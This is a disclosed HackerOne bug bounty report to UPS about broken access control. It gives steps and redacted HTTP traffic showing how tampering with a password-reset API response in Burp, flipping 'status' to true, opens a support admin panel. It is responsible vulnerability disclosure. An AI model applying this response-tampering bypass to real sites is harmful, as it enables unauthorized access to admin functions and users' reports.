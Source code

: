 # Broken access control 

## Report Details
- **Report ID**: 1539426
- **URL**: https://hackerone.com/reports/1539426
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-04-13T05:29:29.116Z
- **Disclosed**: 2022-06-18T16:40:08.872Z

## Reporter
- **Username**: nayefhamouda
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ups

## Vulnerability Information
## Summary:
hello ups team ,,,
I've found broken access control vulnerability in your sites 
It allows me to access the admin panel of the support team, and I can view all requests within the site

vulnerable domains:**█████**
## Steps To Reproduce:
[add details for how we can reproduce the issue]

  1. go to **█████████** 
  2. go to **████████████████** ,put any email address and intercept the request
  
```
POST /api/Account/SendTempPassword/?userName=█████████████ HTTP/2
Host: ██████████████████
Cookie: ████████
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="99", "Google Chrome";v="99"
Accept: application/json, text/plain, */*
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Origin: ██████████████████
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,ar;q=0.7


```
  3.On the burp site, intercept the response for this request and change this value to 
Then change the **"status"** value of this request from false to true

##response:

```
HTTP/2 200 OK
Cache-Control: no-cache,no-cache,no-store
Pragma: no-cache,no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Server: 
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Referrer-Policy: no-referrer
Strict-Transport-Security: max-age=31536000; includeSubDomains;preload
X-Frame-Options: DENY
X-Ua-Compatible: IE=Edge
Content-Security-Policy: script-src 'self'; object-src 'self'; frame-ancestors 'none'
Expect-Ct: enforce, max-age=7776000, report-uri='███████████████-Allow-Headers: Accept, Content-Type, Origin
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Date: ██████████████████ ████████████ GMT
Content-Length: 89

{"status":true,"errorMessage":"Username does not exist. Please enter correct Username."}
```

  4. After that, go to this path  **/resetPassword** You will notice that this page has been opened without problems

███████████

Go to user or report and you will notice that it opens normally and you can fully control it

I made a video of the vulnerability that you can watch

##video POC:

███████

## Impact

The attacker can hack the admin control panel and view and modify all reports

## Attachments
No attachments
